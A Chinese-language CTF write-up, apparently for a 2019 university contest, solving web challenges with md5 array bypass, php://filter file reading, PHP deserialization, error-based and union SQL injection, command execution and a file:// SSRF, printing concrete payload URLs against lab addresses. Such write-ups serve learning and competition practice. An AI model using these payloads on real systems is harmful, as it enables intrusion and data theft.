










签到
md5特性传入数组会报错。
1 | payload:name[]=1&password[]=2 |
flag{WelCome_To_Fafu_2019_ctf}
login1
该题存在BUG可以执行LFI，但是把源码都扒了，发现并不存在sql注入的信息。
扫描目录发现.git，使用githack还原


黑耀石浏览器
抓包返回头带hint: include($_GET[“file”])
使用php://filter协议一个个扒源码index.php、class.php
根据index.php结合class.php构造关于pass参数的反序列化
1 | /index.php?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";} |

sqli
- 首先判断id是字符型还是整型=》id=2-1返回id=1内容
- 扔到burpsuite中进行fuzz发现过滤大量可用注入if,union…
- 添加单引号报错，猜测可以进行报错注入，正好extractvalue,updatexml未被过滤
单纯使用报错语句会有32字符限制，会使得返回的信息不完整，但是这里又过滤了concat等字符拼接
可以参考文章：https://www.w3resource.com/mysql/string-functions/mysql-make_set-function.php
Payload：
1 | http://172.31.19.13/?id=1||extractvalue(1,(make_set(3,%27~%27,(select%20flag%20from%20flag)))) |
其实直接用报错语句也可以
1 | http://172.31.19.13/?id=1||extractvalue(1,(select%20flag%20from%20flag)) |
login2
最近刷的Sql注入有点多
https://zhzhdoai.github.io/2019/04/06/RingZer0-CTF-web-sql-WP/#Login-portal-2-%EF%BC%88sha1%E6%B3%A8%E5%85%A5%EF%BC%89
bugku也有类似的
这题采过坑，爆出的密码为sha1，猜测后端逻辑是把从数据库sha1加密后的password与输入的password进行比较。
使用联合注入，即可得到结果
1 | payload: |

blog
点击flag，发现参数page似乎有包含文件。但是尝试包含其他文件无果。
目录扫描采集信息
访问http://172.31.19.53/www-zip下载得到源码

Index.php
参数$tip使用php伪协议POST you got this，
1 | tip=php://input |
跟进class.php构造$tips反序列化
class.php黑名单过滤了空格和linux部分命令，system方法处存在命令执行。
1 | Payload: |

一些空白符在php中长度
https://wayne173.iteye.com/blog/1471783

fakebook
这题是2018网鼎杯原题：https://mochazz.github.io/2018/08/21/2018%E7%BD%91%E9%BC%8E%E6%9D%AF%E7%AC%AC%E4%B8%80%E5%9C%BAWeb%E9%A2%98%E8%A7%A3/
/view.php?no=1参数存在Sql注入
依旧使用burpsuiteFUZZ查找过滤字段
payload
1 | http://172.31.19.15/view.php?no=21 || extractvalue(1,make_set(3,’~’,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) |
数据库中存储data字段存储序列化字符串。而网页下方有显示当前博客地址，可能是对data字段值进行反序列化，并加载用户blog。存在ssrf。

1 | payload:http://172.31.19.15/view.php?no=-1%20union/**/select%201,2,3,%27O:8:%22UserInfo%22:3:{s:4:%22name%22;s:4:%22test%22;s:3:%22age%22;s:2:%2212%22;s:4:%22blog%22;s:29:%22file:///var/www/html/flag.php%22;}%27# |
PS:测试http://172.31.19.15/flag.php状态码200,该目录下存在flag.php文件

ifram标签回显blog内容,解码base64得flag
